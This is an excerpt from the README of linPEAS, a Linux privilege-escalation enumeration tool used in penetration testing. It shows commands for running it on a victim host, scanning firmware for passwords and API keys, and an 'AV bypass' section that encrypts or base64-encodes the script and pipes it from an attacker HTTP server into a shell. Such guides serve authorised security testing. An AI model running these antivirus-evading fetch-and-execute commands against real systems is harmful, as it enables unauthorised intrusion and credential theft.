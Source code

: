 ```shell
# Output to file
./linpeas.sh -a > /dev/shm/linpeas.txt #Victim
less -r /dev/shm/linpeas.txt #Read with colors
```

```shell
# Use a linpeas binary
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas_linux_amd64
chmod +x linpeas_linux_amd64
./linpeas_linux_amd64
```

## Firmware Analysis

[](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS#firmware-analysis)

If you have a **firmware** and you want to **analyze it with linpeas** to **search for passwords or bad configured permissions** you have 2 main options.

- If you **can emulate** the firmware, just run linpeas inside of it:

```shell
cp /path/to/linpeas.sh /mnt/linpeas.sh
chroot /mnt #Supposing you have mounted the firmware FS in /mnt
bash /linpeas.sh -o software_information,interesting_files,api_keys_regex
```

- If you **cannot emulate** the firmware, use the `-f </path/to/folder` param:

```shell
# Point to the folder containing the files you want to analyze
bash /path/to/linpeas.sh -f /path/to/folder
```

## AV bypass

[](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS#av-bypass)

```shell
#open-ssl encryption
openssl enc -aes-256-cbc -pbkdf2 -salt -pass pass:AVBypassWithAES -in linpeas.sh -out lp.enc
sudo python -m SimpleHTTPServer 80 #Start HTTP server
curl 10.10.10.10/lp.enc | openssl enc -aes-256-cbc -pbkdf2 -d -pass pass:AVBypassWithAES | sh #Download from the victim

#Base64 encoded
base64 -w0 linpeas.sh > lp.enc
sudo python -m SimpleHTTPServer 80 #Start HTTP server
curl 10.10.10.10/lp.enc | base64 -d | sh #Download from the victim
```

## Basic Information

[](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS#basic-information)
